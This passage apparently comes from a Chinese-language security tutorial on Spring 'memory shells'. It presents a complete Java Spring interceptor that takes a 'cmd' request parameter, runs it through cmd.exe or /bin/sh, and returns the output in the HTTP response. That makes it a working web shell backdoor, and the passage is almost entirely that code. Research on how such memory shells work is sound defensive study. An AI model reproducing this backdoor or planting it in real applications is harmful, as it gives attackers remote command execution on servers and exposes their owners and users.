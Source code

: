 [![](assets/1708482749-887a1b919ff5dc234e9b60630d85051a.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211002009-427044b6-c830-1.jpeg)

### 2.10.2 编写一个简单的 Spring Interceptor

`TestInterceptor.java`：

```bash
package org.example.springcontrollermemoryshellexample.demos.web;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if(cmd != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String output = "";
                ProcessBuilder processBuilder;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    processBuilder = new ProcessBuilder("cmd.exe", "/c", cmd);
                }else{
                    processBuilder = new ProcessBuilder("/bin/sh", "-c", cmd);
                }
                java.util.Scanner inputScanner = new java.util.Scanner(processBuilder.start().getInputStream()).useDelimiter("\\A");
                output = inputScanner.hasNext() ? inputScanner.next(): output;
                inputScanner.close();
                writer.write(output);
                writer.flush();
                writer.close();
            } catch (Exception ignored){}
            return false;
        }
        return true;
    }
}
```
